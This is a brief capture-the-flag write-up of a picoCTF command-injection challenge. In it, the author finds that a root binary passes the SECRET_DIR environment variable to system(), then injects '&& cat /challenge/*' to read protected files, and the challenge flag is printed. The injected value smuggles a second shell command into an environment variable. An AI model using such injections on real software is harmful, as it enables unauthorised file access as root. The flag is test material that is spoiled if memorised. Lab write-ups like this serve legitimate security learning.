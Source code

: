 ```yaml
---
ai_date: '2025-04-27 05:29:54'
ai_summary: Command injection vulnerability via `system()` function, exploiting with
  command substitution to read flag
ai_tags:
- cmd-inj
- pwn
created: 2024-08-08T02:41
updated: 2024-08-08T02:48
---
```


How is it reading the folders I wonder?

```bash
ctf-player@pico-chall$ SECRET_DIR='"' ./bin
Listing the content of " as root:
sh: 1: Syntax error: Unterminated quoted string
Error: system() call returned non-zero value: 512
```

Ah, it is using `system()`, and this is a command injection challenge.

Why is it in `pwn` lol.

```bash
ctf-player@pico-chall$ SECRET_DIR='/challenge && cat /challenge/*' ./bin
```

```flag
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```